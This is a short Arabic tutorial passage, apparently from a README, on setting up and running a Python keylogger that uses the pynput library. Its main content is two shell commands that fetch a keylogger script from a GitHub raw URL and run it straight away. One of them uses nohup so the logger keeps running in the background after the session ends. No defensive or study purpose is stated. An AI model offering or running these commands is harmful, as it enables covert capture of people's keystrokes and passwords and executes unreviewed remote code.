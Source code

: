 إذا لم يكن Python مثبتًا، يمكنك تثبيته باستخدام:
sudo apt update

sudo apt install python3


بعد ذلك، تحتاج إلى تثبيت مكتبة pynput التي سنستخدمها لتسجيل ضغطات المفاتيح:
pip3 install pynput

لتشغيل الـkeylogger، استخدم الأمر التالي:

python3 <(curl -s https://raw.githubusercontent.com/osama-mousa/python-scripts/main/keylogger.py)


لتشغيله في الخلفية دون إغلاق الجلسة، يمكنك استخدام أدوات مثل nohup:

nohup python3 <(curl -s https://raw.githubusercontent.com/osama-mousa/python-scripts/main/keylogger.py) &

